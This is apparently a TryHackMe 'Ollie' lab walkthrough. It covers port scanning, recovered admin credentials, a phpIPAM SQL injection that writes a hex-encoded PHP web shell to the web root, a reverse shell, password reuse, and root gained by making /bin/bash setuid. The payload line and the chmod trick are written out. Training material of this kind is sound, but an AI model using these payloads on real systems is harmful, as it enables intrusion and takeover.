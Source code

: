 ```yaml
---
title: "Ollie"
date: 2025-13-16
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![[Pasted image 20250326111427.png]]

Lets enumerate further.
![[Pasted image 20250326111557.png]]

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![[Pasted image 20250326111903.png]]
![[Pasted image 20250326111915.png]]


Found many thing but nothing seems interesting.
![[Pasted image 20250326112416.png]]

Hmm lets also see that port 1337.
![[Pasted image 20250326112455.png]]

Interesting.
Lets move forward.
And we got the creds.
![[Pasted image 20250326112621.png]]
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![[Pasted image 20250326112807.png]]

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![[Pasted image 20250326113019.png]]

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![[Pasted image 20250326114401.png]]

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![[Pasted image 20250326114715.png]]
![[Pasted image 20250326114736.png]]

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![[Pasted image 20250326120012.png]]
![[Pasted image 20250326115750.png]]

And we can now use this to execute commands.
![[Pasted image 20250326115844.png]]

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![[Pasted image 20250326120130.png]]

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![[Pasted image 20250326120530.png]]

## Privelege Escalation

We can get a some creds here.
![[Pasted image 20250326121029.png]]

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![[Pasted image 20250326121429.png]]

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![[Pasted image 20250326124201.png]]

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![[Pasted image 20250326124516.png]]

And Now we are root.
![[Pasted image 20250326124647.png]]

## Done

And done.
![[Pasted image 20250326124744.png]]

Learned lots of things again.
I hope you are okay,take care :).

